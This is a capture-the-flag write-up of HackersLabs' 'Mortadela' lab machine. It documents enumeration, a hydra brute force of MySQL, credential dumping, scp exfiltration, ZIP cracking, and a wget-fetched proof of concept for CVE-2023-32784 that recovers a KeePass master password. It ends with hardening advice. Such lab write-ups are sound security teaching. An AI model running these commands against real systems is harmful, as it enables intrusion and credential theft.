










# Mortadela - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.90 |
| **Date** | March 3, 2026 |

## 1. Executive Summary

The exploitation of the **Mortadela** machine involved a multi-staged attack starting with network service enumeration. Initial access was gained by brute-forcing the MySQL service, which led to the discovery of clear-text credentials for the system user `mortadela`. After establishing an SSH foothold, privilege escalation was achieved by exfiltrating a password-protected ZIP archive containing a KeePass database. By exploiting [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) (KeePass Master Password Dump Exposure), I reconstructed the master password from a memory dump and unlocked the database to retrieve the root credentials.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process began with an `arp-scan` to identify the target on the local network and the use of the whichSystem.py to identify the machine OS which was Linux, followed by a full `nmap` scan to map the attack surface.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.90

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.90 -oG allPorts
extractPorts allPorts
nmap -p22,80,3306 -sCV 192.168.86.90 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.57 |
| 3306 | MySQL | MariaDB 5.5.5-10.11.6 |

### 2.2 Web Enumeration

The root of the web server displayed a default Apache page. Directory fuzzing with `gobuster` revealed a `/wordpress/` directory.

```bash
gobuster dir -u http://192.168.86.90/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```



Using `wpscan`, I enumerated the user `mortadela`. However, a password brute-force attack against the WordPress login was unsuccessful.

```bash
wpscan --url http://192.168.86.90/wordpress/ -e u,vp
```



## 3. Exploitation (Foothold)

### 3.1 MySQL Brute Force

Since WordPress enumeration didn't yield low-hanging fruits and MySQL was exposed externally, which is a significant misconfiguration so I attempted an unsuccessfull dictionary attack against the `mortadela` and then a successfull attack against `root` user.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.86.90 -t 64 -I
```



### 3.2 Database Exfiltration

I connected to the database and explored the tables for sensitive information.

```bash
mysql -h 192.168.86.90 -u root -p
```

```sql
show databases;
use confidencial;
show tables;
select * from usuarios;
```

The `usuarios` table in the `confidencial` database which is a custom database contained the system credentials for the user `mortadela`



### 3.3 SSH Initial Access

Using the recovered password, I logged in via SSH to capture the user flag.

```bash
ssh mortadela@192.168.86.90
ls
cat user.txt
```


## 4. Privilege Escalation

### 4.1 Post-Exploitation & File Exfiltration

While exploring the `/opt` directory, I found a suspicious file named `muyconfidencial.zip`. I transferred it to my local machine for analysis.

```bash
scp mortadela@192.168.86.90:/opt/muyconfidencial.zip .
```

### 4.2 Cracking the ZIP and KeePass Dump

The ZIP was password-protected. I used `zip2john` and `john` to crack it.

```bash
zip2john muyconfidencial.zip > passHashed
john --wordlist=/usr/share/wordlists/rockyou.txt passHashed
unzip muyconfidencial.zip
```


Inside the ZIP, I found `Database.kdbx` (a KeePass database) and `KeePass.DMP` (a memory dump).

### 4.3 Exploiting CVE-2023-32784

The presence of a .DMP file suggested a memory leak vulnerability. CVE-2023-32784 allows an attacker to recover the master password from a KeePass memory dump because the application fails to clear the managed strings from memory correctly.

I used a public [PoC](https://github.com/matro7sh/keepass-dump-masterkey) to extract password fragments:

```bash
wget https://raw.githubusercontent.com/matro7sh/keepass-dump-masterkey/refs/heads/main/poc.py
python3 poc.py KeePass.DMP
```

The tool recovered: ●●ritrini12345. This indicates that the first two character is unknown, but the rest of the string is clear.



### 4.4 Custom Wordlist Generation

I wrote a Python script to generate all possible combinations for the missing character to perform a targeted brute-force against the `.kdbx` file.

```python
#!/usr/bin/env python3
import string

bases = [
    "aritrini12345", "Dritrini12345", "ritrini12345",
    "#ritrini12345", "yritrini12345", "kritrini12345",
    "9ritrini12345", ";ritrini12345", "Hritrini12345",
    "[ritrini12345", " fritrini12345", "fritrini12345"
]

possible_chars = string.printable.strip()
def generate_combinations(list):
    combinations = []
    for base in list:
        for char in possible_chars:
            combinations.append(char + base)
    return combinations

passwords = generate_combinations(bases)
print(f"Generated {len(passwords)} possible combinations.")
with open("mortadelaDic.txt", "w") as f:
    for pw in passwords:
        f.write(pw + "\n")
print("Wordlist saved to 'mortadelaDic.txt'")
```

### 4.5 Cracking the Master Password

With the custom wordlist, I used `keepass2john` to extract the hash and `john` to find the correct master password.

```bash
python3 dic.py
keepass2john Database.kdbx > passHashed2
john --wordlist=mortadelaDic.txt passHashed2
```

And I obtained the master password for the keepass database



Using this password to open the database, I found the entry for the root user.



## 5. Flags & Proof

Mortadela


Root



## 6. Remediation & Hardening

- **Service Isolation:** MySQL should not be accessible from the network. Bind it to `127.0.0.1` and use SSH tunneling if remote access is required.
- **Credential Security:** Never store system passwords in plain text within databases. Use robust hashing (Argon2/BCrypt) for web applications.
- **Software Updates:** Update KeePass to version 2.54 or higher to prevent sensitive data from remaining in memory dumps.
- **Least Privilege:** Restrict access to sensitive files in `/opt`. The ZIP archive should not have been readable by the `mortadela` user.

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)
